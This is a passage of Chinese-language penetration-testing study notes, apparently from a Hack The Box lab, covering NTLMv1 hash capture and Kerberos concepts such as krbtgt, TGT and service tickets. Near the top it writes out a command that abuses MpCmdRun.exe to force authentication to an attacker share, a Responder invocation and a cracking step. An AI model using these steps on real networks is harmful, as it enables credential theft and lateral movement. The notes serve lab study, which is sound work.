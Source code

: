 

NTLM V1 的值可以 配合 Responder 技术得到，然后破解，详情见 HTB APT 靶机

```http
E:\渗透笔记\oscp\hackthebox\APT(Windows).md
```

```
.\MpCmdRun.exe -Scan -ScanType 3 -File \\10.10.16.5\share\file.txt   //靶机
└─# python Responder.py -I tun0 --lm        //kali
https://crack.sh/                    //到这里破解得到 hash，再 hash 传递或者申请票据啥的
```



## Kerberos



三角色：

- 客户端：使用服务的用户

- 服务端：域内提供服务的服务端，服务端都有一个独一的 SPN

- 认证服务的KDC：**KDC密钥发行中心**是一种网络服务，它向活动目录域内的用户和计算机**提供会话票据**和临时会话密钥，其服务帐户为 `krbtgt` 。KDC 作为活动目录域服务 ADDS 的一部分运行在每个域控制器上



**krbtgt** 帐户：该用户是在创建活动目录时系统自动创建的一个账号，其**作用是KDC密钥发行中心的服务账号**，其密码是系统随机生成的，无法正常登陆主机



Kerberos是一种基于票据 Ticket 的认证方式。客户端想要访问服务端的某个服务，首先需要购买服务端认可的 **ST服务票据(Service Ticket)**。也就是说，客户端在访问服务之前需要先买好票，等待服务验票之后才能访问。但是这张票并不能直接购买，需要一张 **（Ticket Granting Ticket)**。也就是说，客户端在买票之前必须先获得一张TGT认购权证。**TGT认购权证** 和 **ST服务票据** 均是由KDC(密钥分发中心)发放；因为KDC是运行在域控制器上，所以说TGT认购权证和ST服务票据均是由域控发放

```
先买预售票联系  ST服务票据
再付费得到正票  TGT认购权证
再拿抵换卷去交换商品  TGS
```





Kerberos 使用 TCP/UDP `88 端口`进行认证，使用 TCP/UDP `464 端口`进行密码重设



名词

| DC     | Domain Controller，域控                                    |
| ------ | ---------------------------------------------------------- |
| krbtgt | KDC密钥发行中心服务账户                                    |
| KDC    | Key Distribution Center：密钥分发中心，由域控担任          |
| AD     | Active Directory：活动目录，里面包含域内用户数据库         |
| AS     | Authentication Service：认证服务                           |
| TGT    | Ticket Granting Ticket：TGT认购权证，由KDC的AS认证服务发放 |
| TGS    | Ticket Granting Service：票据授予服务                      |
| ST     | Service Ticket：ST服务票据，由KDC的TGS票据授予服务发放     |

